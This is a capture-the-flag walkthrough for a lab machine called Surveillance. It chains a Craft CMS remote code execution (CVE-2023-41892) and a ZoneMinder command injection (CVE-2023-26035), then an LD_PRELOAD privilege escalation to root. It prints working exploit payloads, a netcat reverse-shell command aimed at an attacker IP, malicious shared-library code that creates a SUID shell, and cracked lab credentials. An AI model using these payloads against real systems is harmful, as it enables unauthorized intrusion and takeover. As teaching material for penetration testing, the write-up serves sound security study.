






Exploitation Summary
Exploitation process: The target was running Craft CMS version 4.4.14, which is vulnerable to CVE-2023-41892, an unauthenticated remote code execution vulnerability. This vulnerability allows attackers to instantiate arbitrary PHP classes and exploit the Imagick library to write a webshell to the web root directory.
By exploiting this vulnerability, I achieved initial access as the www-data user. Enumerating the application files, I discovered database backup files containing credentials for the user matthew, allowing me to escalate to that user account.
Further enumeration revealed ZoneMinder version 1.36.32 running on port 8080. This version is vulnerable to CVE-2023-26035, an unauthenticated command injection vulnerability that allowed me to gain access as the zoneminder user.
Finally, privilege escalation to root was achieved by abusing the LD_PRELOAD environment variable through ZoneMinder's configuration settings. The zoneminder user had sudo permissions to execute ZoneMinder Perl scripts, which respect custom LD_PRELOAD values from the application configuration, allowing me to inject a malicious shared library and execute code as root.
Technologies/Exploits: Craft CMS RCE via PHP class injection and Imagick abuse (CVE-2023-41892), ZoneMinder unauthenticated command injection (CVE-2023-26035), privilege escalation via LD_PRELOAD environment variable injection in ZoneMinder configuration.
Initial Reconnaissance
Beginning with an nmap scan to identify open ports and services running on the target:

The scan reveals SSH on port 22 and an HTTP server on port 80. I add surveillance.htb to my /etc/hosts file to properly resolve the domain.
Web Enumeration - Craft CMS Discovery
Running whatweb provides interesting information about the web application:
http://10.10.11.245 [302 Found] HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], RedirectLocation[http://surveillance.htb/]
http://surveillance.htb/ [200 OK] Bootstrap, Email[demo@surveillance.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], JQuery[3.4.1], Title[Surveillance], X-Powered-By[Craft CMS], nginx[1.18.0]The response header X-Powered-By: Craft CMS confirms the application is running Craft CMS. Tools like cmseek confirm this, and Wappalyzer indicates the backend uses Yii, which is a PHP framework.
Version Identification
While automated tools don't report the exact version, the footer of the website contains a "Powered by Craft CMS" link that reveals the version: 4.4.14. The link points to https://github.com/craftcms/cms/tree/4.4.14, which shows this version was released on June 14, 2023.
Vulnerability Research - CVE-2023-41892
Searching for vulnerabilities affecting Craft CMS 4.4.14, I immediately find a critical unauthenticated RCE: CVE-2023-41892. A proof-of-concept exploit is available at https://github.com/0xfalafel/CraftCMS_CVE-2023-41892.
For more technical details about the vulnerability, there's an excellent blog post: https://blog.calif.io/p/craftcms-rce
Understanding the Vulnerability
The vulnerability allows attackers to instantiate arbitrary PHP classes through a specially crafted POST request to the conditions/render action endpoint. The exploit payload looks like this:
action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()":[{"close":null}],"_fn_close":"phpinfo"}}This payload instantiates the FnStream class and calls phpinfo(). Testing this basic proof-of-concept:

Weaponizing the Exploit
The full exploitation chain is more complex and leverages the Imagick PHP extension. The attack works as follows:
- Use the class injection to instantiate
Imagickand create an MSL (Magick Scripting Language) file in the/tmpdirectory - Imagick normally deletes temporary files after execution, but by intentionally causing it to crash (by making it process a non-image MSL file), the temporary file persists
- The MSL file is created with a random name like
phpZZchoGin/tmp - In a second request, reference this file using the
vid:protocol with a wildcard (vid:/tmp/php*) since the exact filename is unknown - The MSL file contains instructions to write a webshell to the web root directory
The first request crashes Imagick and leaves the MSL file in /tmp:

The second request uses the wildcard to reference the created file and execute the MSL instructions:

Initial Access - Exploiting Craft CMS
Executing the automated exploit script automates this entire process:
python3 craft-cms.py http://surveillance.htbThe exploit output shows the attack progression:
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web
[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoamiThe webshell is successfully deployed at http://surveillance.htb/shell.php, providing command execution as the www-data user. I use this to establish a proper reverse shell and begin enumeration.
Lateral Movement - Database Enumeration
In the /home directory, I discover two users: zoneminder and matthew. Enumerating the Craft CMS application files, I find database credentials in the .env file:
# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!Connecting to MySQL with these credentials, I find a password hash for the admin user in the database. However, the hash doesn't crack with standard wordlists.
Database Backup Discovery
Exploring the application directory further, I discover a database backup file in storage/backups:
surveillance--2023-10-17-202801--v4.4.14.sql.zipUnzipping and examining this backup reveals an older password hash for the user Matthew B:
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec...This hash cracks quickly on CrackStation, revealing the credentials:
matthew:starcraft122490Using these credentials, I successfully SSH into the machine as matthew and retrieve the user flag.
Internal Service Discovery - ZoneMinder
Checking for listening ports, I discover port 8080 is open locally but not externally accessible. To investigate this service, I set up a port forward using Chisel:
# On attacking machine
./chisel server -p 9999 --reverse
# On target machine
./chisel client 10.10.16.2:9999 R:8080:127.0.0.1:8080Accessing the forwarded port reveals a ZoneMinder login panel:

I attempt default credentials like admin:admin and the credentials I already have, but none work initially.
ZoneMinder Version Discovery
Exploring the nginx configuration, I notice the web root path is being manipulated:

Searching for ZoneMinder configuration files, I find:
/etc/zm- Configuration directory/usr/share/zoneminder/www- Web root directory
In /usr/share/zoneminder/www/includes/config.php, I discover the exact version:
define( 'ZM_VERSION', '1.36.32' );ZoneMinder Exploitation - CVE-2023-26035
This version of ZoneMinder is vulnerable to CVE-2023-26035, an unauthenticated command injection vulnerability. I find a clean proof-of-concept at https://github.com/heapbytes/CVE-2023-26035.
Understanding the Vulnerability
The vulnerability exists because there's an unsecured endpoint that also contains a command injection flaw. The exploit is straightforward:
- Fetch a CSRF token from the application
- Send a POST request to
/index.phpwith a malicious payload - The payload injects commands through the
monitor_idsparameter
The exploit payload structure:
data = {
'view': 'snapshot',
'action': 'create',
'monitor_ids[0][Id]': f';{self.cmd}',
'__csrf_magic': self.csrf_magic
}Notice the f'; prefix in monitor_ids[0][Id] - this is where the command injection occurs.
Gaining Access as Zoneminder User
I use the exploit to send a reverse shell payload:
python3 poc.py --target http://localhost:8080/ --cmd 'busybox nc 10.10.16.2 443 -e sh'The exploit output confirms execution:
Fetching CSRF Token
Got Token: key:ae6cff7f165565753ccfd00575c5d02dd1f5038e,1764171952
[>] Sending payload..
[!] Script executed by out of time limit (if u used revshell, this will exit the script)I successfully receive a reverse shell connection as the zoneminder user.
Privilege Escalation - LD_PRELOAD Abuse
Checking sudo permissions for the zoneminder user reveals an interesting configuration:
sudo -lMatching Defaults entries for zoneminder on surveillance:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User zoneminder may run the following commands on surveillance:
(ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *The user can execute any Perl script matching the pattern zm*.pl with sudo privileges. The available scripts are:
ls -la /bin/zm*-rwxr-xr-x 1 root root 788096 Nov 23 2022 /bin/zm_rtsp_server
-rwxr-xr-x 1 root root 43027 Nov 23 2022 /bin/zmaudit.pl
-rwxr-xr-x 1 root root 731280 Nov 23 2022 /bin/zmc
-rwxr-xr-x 1 root root 12939 Nov 23 2022 /bin/zmcamtool.pl
-rwxr-xr-x 1 root root 6043 Nov 23 2022 /bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23 2022 /bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23 2022 /bin/zmfilter.pl
-rwxr-xr-x 1 root root 5640 Nov 23 2022 /bin/zmonvif-probe.pl
-rwxr-xr-x 1 root root 19386 Nov 23 2022 /bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23 2022 /bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23 2022 /bin/zmrecover.pl
-rwxr-xr-x 1 root root 4815 Nov 23 2022 /bin/zmstats.pl
-rwxr-xr-x 1 root root 2133 Nov 23 2022 /bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23 2022 /bin/zmtelemetry.pl
-rwxr-xr-x 1 root root 5340 Nov 23 2022 /bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23 2022 /bin/zmtrigger.pl
-rwxr-xr-x 1 root root 690720 Nov 23 2022 /bin/zmu
-rwxr-xr-x 1 root root 45421 Nov 23 2022 /bin/zmupdate.pl
-rwxr-xr-x 1 root root 8205 Nov 23 2022 /bin/zmvideo.pl
-rwxr-xr-x 1 root root 7022 Nov 23 2022 /bin/zmwatch.pl
-rwxr-xr-x 1 root root 19655 Nov 23 2022 /bin/zmx10.plZoneMinder Database Credentials
In /etc/zm/zm.conf, I find database credentials for ZoneMinder:
# ZoneMinder database user
ZM_DB_USER=zmuser
# ZoneMinder database password
ZM_DB_PASS=ZoneMinderPassword2023Connecting to MySQL, I find the admin user's password hash:
$2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.While this hash doesn't crack, I try Matthew's password (starcraft122490) with the username admin and successfully log into the ZoneMinder web interface.
Exploiting LD_PRELOAD Configuration
Within ZoneMinder's configuration panel (accessible through the web interface), I discover a setting that allows specifying a custom LD_PRELOAD path. According to the official documentation, this setting is intended for legitimate library preloading:

This is exploitable because when the ZoneMinder Perl scripts are executed with sudo, they respect the LD_PRELOAD value from the application configuration. I can abuse this by:
- Creating a malicious shared library (
.sofile) - Uploading it to the target
- Setting the
LD_PRELOADpath in ZoneMinder's configuration to point to this library - Executing a ZoneMinder Perl script with sudo, which will load our malicious library as root
Creating the Malicious Library
I create a simple C program that will be compiled into a shared library:
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("cp /bin/bash /tmp/xd");
system("chown root:root /tmp/xd");
system("chmod 6777 /tmp/xd");
}The _init() function is automatically called when the shared library is loaded. It:
- Unsets
LD_PRELOADto avoid issues with child processes - Sets the effective GID and UID to 0 (root)
- Copies
/bin/bashto/tmp/xd - Sets ownership to root
- Sets SUID permissions (6777) on the copied bash binary
Compiling this into a shared library:
gcc -fPIC -shared -o xd.so xd.c -nostartfilesI transfer xd.so to the target machine in the zoneminder user's home directory and configure the ZoneMinder web interface to use this library path in the LD_PRELOAD setting.
Triggering Privilege Escalation
Now I execute one of the ZoneMinder Perl scripts with sudo to trigger the library loading:
sudo /usr/bin/zmdc.pl startupThis creates a SUID copy of bash in /tmp:
ls -la /tmp/xd-rwsrwsrwx 1 root root 1396520 Nov 26 17:02 /tmp/xdUsing the SUID bash binary to escalate to root:
/tmp/xd -pxd-5.1# whoami
root
xd-5.1# cat /root/root.txt
d1151402f053854a35db211ba8a542b8I now have root access to the system and can retrieve the root flag, completing the machine.